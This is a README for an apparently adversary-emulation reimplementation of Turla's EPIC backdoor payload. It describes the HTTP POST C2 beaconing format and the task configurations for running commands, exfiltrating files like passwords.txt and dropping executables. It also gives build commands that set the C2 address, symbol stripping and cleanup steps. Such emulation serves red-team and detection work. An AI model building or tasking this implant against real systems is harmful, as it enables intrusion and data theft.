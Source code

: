 # EPIC Payload

## C2 Communications

The EPIC payload communicates with a hardcoded C2 server and port value via HTTP POST requests.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

### C2 Registration

The module will automatically perform initial discovery commands and output the results to a tmp
file in %TEMP% with a random string in its filename: `%TEMP%\~D<random>.tmp`.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>
For scenario purposes, this file name has been hardcoded to `%TEMP%\~D723574.tmp`. The discovery
output is returned in the POST request body.

The POST request body is bzip2 compressed and then formatted in a Base64 encoded JSON string with
fields `UUID`, `type`, and `data` and are not made to any particular subfolder and are sent to the
URL path `/` of the C2 server site. The initial heartbeat is structured as follows:

```
{"UUID":"", "type":"command", "data":"<system discovery information>"}
```

EPIC will use the `type` field to indicate to the C2 server what type of data to receive based on
the task.

| Type       | Description |
| ---------- | ------------
| `command`  | Associated with the `exe` key - indicates the returned data contains command output |
| `upload`   | Associated with the `result` key - indicates the returned data contains a file      |
| `download` | Associated with payloads and the `name` key - indicates download was successful     |
| `delete`   | Associated with the `name` and `del_task` keys - indicates delete was successful    |

Upon registration with the C2 server, the module will receive a UUID to use in future
communications. The module will then continue to perform POST requests to the domain name of the
C2 server site to receive instructions and return result output.

### Execute Commands

Upon receiving instructions to execute commands, the module will execute the command, append
command output to `%TEMP%\~D723574.tmp` , and return the command output in the next C2 communication
cycle.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

## Execution

The Payload is intended to execute in the scenario as an embedded resource inside of EPIC's Reflective Guard, which is subsequently embedded in the Reflective Injector. Executing either the Guard DLL or Injector executable will result in the execution of the Payload DLL. To execute *just* the Payload, you can run it via `rundll32.exe` with the exported function `PayLoop`. See [here](../../#troubleshooting) if you encounter any issues.

### Tasks

The EPIC payload receives tasking from the C2 server as part of a successful beacon response.

To retrieve an instruction, the response should be base64 decoded and then bzip2 decompressed.

EPIC instructions are structured as followed:

| Instruction Section      | Byte Offset |
| ------------------------ | ----------- |
| Command ID               | 0           |
| Payload size (`p`)       | 4           |
| Payload                  | 8           |
| Configuration size       | 8 + `p`     |
| Configuration            | 8 + `p` + 4 |

Instructions with no payloads (EXE binaries) to download to the module will have a `Payload size`
of 0.

Configurations are INI structured files which contain some of the following fields:

| Name      | Description |
| --------- | ----------- |
| exe       | Execute a command, redirect its output to the file %TEMP%\~D%random%.tmp. The file is then uploaded during the next C&C communication cycle. |
| del_task  | Delete a file. |
| result    | Set the filename that is supposed to contain the results of command execution. Effectively, any existing file may be marked for upload by this command. |
| name      | Set the filename to be deleted or created (depends on other parameters) |

Example execute command configuration:

```
exe = whoami
```

Example upload file configuration:

```
result = C:\users\bob\passwords.txt
```

Example download file configuration (instruction should have associating payload data):

```
name = C:\System32\malicious.exe
```

Example delete file configuration:

```
del_task = \nname = C:\Windows\System32\malicious.exe
```

### Encryption

#### RSA encryption

- sha1 hash function
- OAEP padding
- 2048 bit key

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

openssl rsa -pubin -in public.pem -RSAPublicKey_out -out public_pkcs1.key -outform der
openssl rsa -in private.pem -traditional -out private_pkcs1.key -outform der
```

#### AES encryption

- 256 bit key
- CBC mode of operation

## Build Instructions

**Notes about Bzip2**
The EPIC payload used a modified version of BZip2 compiled as a static library. Modifications to BZip2 primarily consisted of stripping debug statements throughout the source files. The modifed BZip2 static library has been removed from this repository, however vcpkg will install an unmodified BZip2 library upon building the payload that will function as needed.

If you are interested in downloading and modifying BZip2, you can find it [here](https://gitlab.com/bzip2/bzip2). CMake build instructions can be found [here](https://gitlab.com/bzip2/bzip2/-/blob/master/COMPILING.md#basic-release-build). Once compiled, `bz2_static.lib` should be copied to `payload\libs\lib\bzlib.lib` and the `bzlib.h` should be copied to `payload\libs\include\bzlib.h`. Create the relevant directories if they do not already exist. Please also make the necessary adjustments to the `CMakeLists.txt` and `vcpkg.json` files. <sup>[1](./vcpkg.json#L9) [2](./CMakeLists.txt#L27) [3](./CMakeLists.txt#L34) [4](./CMakeLists.txt#L64) [5](./CMakeLists.txt#L74)</sup>

**From Visual Studio Developer PowerShell:**

```
cd Resources\EPIC\payload
cmake -S . -B build -DUSE_HTTPS="<true/false>" -DC2_PORT="<port #>" -DC2_ADDRESS:STRING="<c2Address>" -DBINARY_NAME:STRING="<res/res2>"
cmake --build build --config Release --target ALL_BUILD -j 4 --
```

The compiled DLL and executable will be located in: `EPIC\payload\bin`

When built with the [build script](../#build-instructions), EPIC will use a default C2 server (address and port) and HTTP for communications. To compile with a different C2 server address and port or to use HTTPS communications, change the corresponding values in the line from above (`cmake -S . -B build -DUSE_HTTPS="<true/false>"...`). For example, to build the payload with C2 server `example.com`, port `1234`, and `HTTPS` selected, run:

```
cmake -S . -B build -DUSE_HTTPS="true" -DC2_PORT="1234" -DC2_ADDRESS:STRING="example.com" -DBINARY_NAME:STRING="res2"
```

Run the remaining command as written above. To note: the payload binary name `res` corresponds to HTTP and `res2` to HTTPS.

To remove symbols, you can use the `strip` command:

```
strip -s bin\test_res.exe
```

To verify, you can run `strings` or `objdump --syms bin\test_res.exe` - you should see an empty symbols table.

To run unit tests:

```
ctest --test-dir bin
```

## Cleanup Instructions

Remove the log file:

```
Remove-Item -Path "%TEMP%\~D723574.tmp";
```

Kill all Edge browsers potentially containing payload injected into it:

```
Get-Process msedge -ErrorAction SilentlyContinue | Stop-Process -Force;
```

## CTI References

1. <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
2. <https://securelist.com/the-epic-turla-operation/65545/>
